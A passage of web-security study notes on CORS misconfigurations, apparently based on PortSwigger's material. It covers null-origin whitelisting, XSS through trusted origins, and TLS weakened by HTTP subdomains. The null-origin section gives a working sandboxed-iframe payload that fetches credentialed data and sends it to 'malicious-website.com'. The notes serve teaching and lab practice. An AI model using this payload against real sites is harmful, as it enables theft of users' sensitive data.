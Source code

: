 And the server responds with:
`HTTP/1.1 200 OK Access-Control-Allow-Origin: null Access-Control-Allow-Credentials: true`

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:
`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='malicious-website.com/log?key='+this.responseText; }; </script>"></iframe>`

Here is a lab that covers this topic: [cors_trusted_null_origin_iframe](labs/cors_trusted_null_origin_iframe.md)

### [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) via CORS trust relationships
Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:
```http
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

If the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```
